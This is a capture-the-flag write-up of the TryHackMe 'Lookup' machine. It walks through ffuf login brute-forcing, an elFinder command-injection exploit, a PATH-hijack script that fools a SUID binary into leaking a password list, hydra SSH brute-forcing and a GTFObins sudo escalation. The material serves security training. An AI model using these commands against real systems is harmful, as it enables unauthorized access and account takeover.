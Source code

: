 ```yaml
---
layout: post
title: Lookup (TryHackMe)
date: 2025-05-20
categories: [CTF, TryHackme]
tags: [login bruteforce, SUID, GTFObins, Look]
---
```



## Nmap Result

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)

80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login Page
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

# Enumeration

## HTTP(80)

### Dirsearch


```bash
dirsearch -h http://lookup.thm

[14:33:07] 403 -  275B  - /.php                                             
[14:33:59] 200 -    1B  - /login.php                                        
[14:34:16] 403 -  275B  - /server-status                                    
[14:34:16] 403 -  275B  - /server-status/

```

## Website Features
- Login page

![Login](https://c00lrabbit.github.io/assets/assets/Images/Lookup/Login-page.png)

- I tried injection attacks, Intercepted the traffic and Analyzed but no use.

#### Using ffuf we can try bruteforcing the login

```bash
ffuf -w /usr/share/wordlists/seclists/Passwords/2023-200_most_used_passwords.txt -X POST -u http://lookup.thm/login.php -d 'username=admin&password=FUZZ' -fw 8 
```
![ffuf password ](https://c00lrabbit.github.io/assets/Images/Lookup/fuff-password.png)

But this password doesn't login so i enumerated the username

```bash
 ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-username.txt -X POST -u http://lookup.thm/login.php -d 'username=FUZZ&password=password123' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"  -fw 8 
```

![ffuf uname](https://c00lrabbit.github.io/assets/Images/Lookup/fuff-uname.png)

- After we login with the correct credentials we get into `files.lookup.thm` vhost.
- There is a service running on this vhost named "elFinder".

![elfinder dashboard](https://c00lrabbit.github.io/assets/Images/Lookup/elfinder-hpage.png)

- Found the version of the elFinder

![elfinder version info](https://c00lrabbit.github.io/assets/Images/Lookup/elfinder-info.png)

# Exploitation

- This version is vulnerable to php command injection which leads to RCE.
- exploit-https://www.exploit-db.com/exploits/46481

![exploit sshell](https://c00lrabbit.github.io/assets/Images/Lookup/exploit-shell.png)

We can upgrade this into interactive shell using Reverse shell.com
![rev-shell](https://c00lrabbit.github.io/assets/Images/Lookup/revshell-generator.png)

- After running linpeas we found a SUID
![linpeas-suid](https://c00lrabbit.github.io/assets/Images/Lookup/linpeas-SUID.png)

- Running pwm binary

![pwm-binary](https://c00lrabbit.github.io/assets/Images/Lookup/pwm-binary.png)

## Analysing the binaryy
- When we run this binary it executes `id` command and from the result it search for a .password file under the user

```bash
cd /tmp
echo '#!/bin/bash' > id
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id
chmod +x id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```

- After running the above line we get this password list

```
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
....

```

- Using hydra we can bruteforce the login

```bash
hydra -l think -P password.txt ssh://lookup.thm -t 40 -v
```
![hydra-out](https://c00lrabbit.github.io/assets/Images/Lookup/hydra-out.png)

# Privilege Escalation

- After running `sudo -l` we found that we have access to "look" with sudo.
- After search in GTFO bins [Click Here](https://gtfobins.github.io/gtfobins/look/#sudo) we found a bypass.

![GTFO-Bins](https://c00lrabbit.github.io/assets/Images/Lookup/gtfo-bin.png)

- We got the root
![root](https://c00lrabbit.github.io/assets/Images/Lookup/root.png)

## Conclusion
- Bypassing the login page is bit tricky and getting the password list you have to think outside the box.
- Privilege escalation is Stright forward.
- Overall it is a good machine to Test you bruteforcing skills and Enumeration skills.